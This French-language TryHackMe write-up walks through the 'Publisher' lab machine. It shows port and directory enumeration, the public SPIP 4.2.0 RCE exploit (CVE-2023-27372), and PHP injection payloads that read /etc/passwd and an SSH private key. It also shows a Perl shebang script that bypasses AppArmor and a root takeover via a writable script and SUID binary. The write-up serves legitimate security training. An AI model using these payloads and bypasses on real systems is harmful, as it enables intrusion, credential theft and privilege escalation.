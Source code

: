 ```yaml
---
title: Publisher - TryHackMe
date: 2024-07-17 21:07:05 -0400
description: La machine "Publisher" sur TryHackMe est un environnement simulé hébergeant certains services. Grâce à une série de techniques d'énumération, y compris l'exploration des répertoires et l'identification de la version, une vulnérabilité est découverte, permettant l'exécution de code à distance (RCE). Les tentatives d'escalade des privilèges à l'aide d'un binaire personnalisé sont entravées par un accès restreint aux fichiers et répertoires critiques du système, ce qui nécessite une exploration plus approfondie du profil de sécurité du système pour finalement exploiter une faille qui permet l'exécution d'un shell bash non confiné et d'atteindre l'escalade des privilèges.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking]
image:
    path: https://i.ibb.co/wNrVt8F/publisher.jpg
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


<h2 style="color: orange;">Reconnaissance</h2>

Pour commencer. j'utilise `rustscan` pour voir quelles ports sont ouvert dans cet Machine

```console
# rustscan --ulimit 5000 --range 1-65535 -a $ip -- -sV 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.83.157:22
Open 10.10.83.157:80
```

Deux port sont ouverte et qui sont:

- **Port: 22**
- **Port: 80**

Un site internet deja disponibles dans le port 80.

![website](https://i.ibb.co/bbJbfw8/spip.png)

Je vais faire de l'enumeration de fichier dans ce site que je viens de decouvrir avec `ffuf`


```console
└─$ ffuf -u http://10.10.83.157/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
______________________


spip                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 967ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 3598ms
```

Dans le site web je trouve un **CMS** du nom de *SPIP* avec la version `4.2.0`

- [SPIP v4.2.0 - Remote Code Execution (Unauthenticated)](https://www.exploit-db.com/exploits/51536)


```console
$ searchsploit -m 51536                
  Exploit: SPIP v4.2.0 - Remote Code Execution (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/51536
     Path: /usr/share/exploitdb/exploits/php/webapps/51536.py
    Codes: CVE-2023-27372
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/bloman/CTFs/Boot2/TryHackMe/exploits/51536.py

$ python3 spip_rce.py -h
usage: spip_rce.py [-h] -u URL -c COMMAND [-v]

Poc of CVE-2023-27372 SPIP < 4.2.1 - Remote Code Execution by nuts7

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     SPIP application base URL
  -c COMMAND, --command COMMAND
                        Command to execute
  -v, --verbose         Verbose mode. (default: False)

```

Lorsque j'execute cet exploit:

```console
$ python3 spip_rce.py -u http://10.10.83.157/spip -c 'id' -v
[+] Anti-CSRF token found : AKXEs4U6r36PZ5LnRZXtHvxQ/ZZYCXnJB2crlmVwgtlVVXwXn/MCLPMydXPZCL/WsMlnvbq2xARLr6toNbdfE/YV7egygXhx
[+] Execute this payload : s:35:"<?php system('cat /etc/passwd'); ?>";


```

En lisant ce [template nuclei](https://github.com/projectdiscovery/nuclei-templates/pull/7510/files) je comprends que la vulnerabilite se trouve dans le parametre `oubli` lorsqu'on voudrais se connecter sur le CMS

![Oubli](https://i.ibb.co/z6NQhpf/oubli.png)

À partir de là, il est possible de formuler une commande en utilisant la chaîne `"s:19:"<?php phpinfo(); ?>";"`

![calcule](https://i.ibb.co/XWrWY80/s3.png)

Le `s:35` indique ici le nombre de caractères contenus dans les guillemets "". ``""``

![passwd](https://i.ibb.co/SBkqGTt/en.png)

j'ai lu la cle privee `ssh` en utilisant le payload ``s:47:"<?php system('cat /home/think/.ssh/id_rsa'); ?>";`` puis je me suis connecter en tant qu'utilisateur `think`

![id_rsa](https://i.ibb.co/M6zZ03b/ke.png)

```console
└─$ ssh think@10.10.83.157 -i id_rsa 
think@publisher:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)

```

<h2 style="color: orange;">Privilege Escalation</h2>

Je commence par vérifier la version du système.

```console
think@publisher:~$ uname -a
Linux publisher 5.4.0-169-generic #187-Ubuntu SMP Thu Nov 23 14:52:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```
En inspectant les fichiers SUID, je découvre un fichier qui semble suspect.

![suspect suid](https://i.ibb.co/KbPg5HH/suid.png)

J'examine ce fichier suspect à l'aide de la commande `strings` et voici ce que je trouve :

![](https://i.ibb.co/km0jdJ8/sc.png)

```console
think@publisher:/opt$ ls -la /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh
think@publisher:/opt$ 
```

Cependant, lorsque j'essaie de télécharger des fichiers sur la machine, je rencontre une restriction d'accès qui m'empêche de créer des répertoires.

```console
think@publisher:/tmp$ mkdir priv
mkdir: cannot create directory ‘priv’: Permission denied
```
![env](https://i.ibb.co/6W7Bqcm/env.png)

En examinant les variables d'environnement, je constate que ce système utilise `ash` comme shell par défaut, comme indiqué par  `SHELL=/usr/sbin/ash`


### Contournement de Shebang AppArmor

>*AppArmor est une amélioration du noyau conçue pour restreindre les ressources disponibles aux programmes via des profils par programme, mettant en œuvre efficacement un contrôle d'accès obligatoire (MAC) en liant directement les attributs de contrôle d'accès aux programmes plutôt qu'aux utilisateurs.*
{: .prompt-info }


En examinant le profil AppArmor associé au shell `ash`, on observe les règles suivantes :

![](https://i.ibb.co/frQ23jz/as.png)

Selon les règles définies dans ce profil, il est clair que l'écriture dans des répertoires tels que `/opt`, `/tmp`, et `/var/tmp` est explicitement interdite. Cependant, il existe une subtilité :

- **Mode "complain"** : Le profil AppArmor pour ash est configuré en mode "complain" (flags=(complain)). Dans ce mode, les violations de règles ne sont pas strictement appliquées ; elles sont plutôt signalées dans les logs sans bloquer réellement l'accès. Cela signifie que bien que les règles spécifient des interdictions d'écriture, ces actions ne sont pas bloquées de manière stricte, permettant ainsi à l'utilisateur d'écrire dans des répertoires comme `/var/tmp`.

En mode "complain", les protections AppArmor sont moins strictes, ce qui permet à des utilisateurs malveillants ou non autorisés de contourner certaines restrictions. Cela explique pourquoi, malgré la présence d'une règle interdisant l'écriture dans `/var/tmp`, vous êtes toujours capable d'y écrire.

- Pour contourner la protection du Shebang AppArmor, j'utilise ce script suivant :

```console
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"
```

Je vais écrire et exécuter ce script dans le répertoire `/var/tmp`, ce qui me permettra de contourner les restrictions imposées par AppArmor.

![Bypass AppArmor](https://i.ibb.co/j69skvC/bypass.png)

Après avoir contourné AppArmor, je peux désormais écrire dans le fichier `/opt/run_container.sh` sans aucune restriction, ce qui me permet d'élever mes privilèges en utilisant le SUID `/usr/sbin/run_container`.

![ssh](https://i.ibb.co/gtnSwjc/ssh.png)

Pour finaliser, j'ai ajouté la clé Public SSH de mon utilisateur dans le fichier `authorized_keys` de l'utilisateur `root`, me permettant ainsi de me connecter sans mot de passe.

![Rooted](https://i.ibb.co/9tT6SS8/root.png)



<h2 style="color: orange;">Ressources supplementaires</h2>
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [Nuclei](https://github.com/projectdiscovery/nuclei-templates/pull/7510/files)
- [AppArmor Bypass](https://book.hacktricks.xyz/v/fr/linux-hardening/privilege-escalation/docker-security/apparmor)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
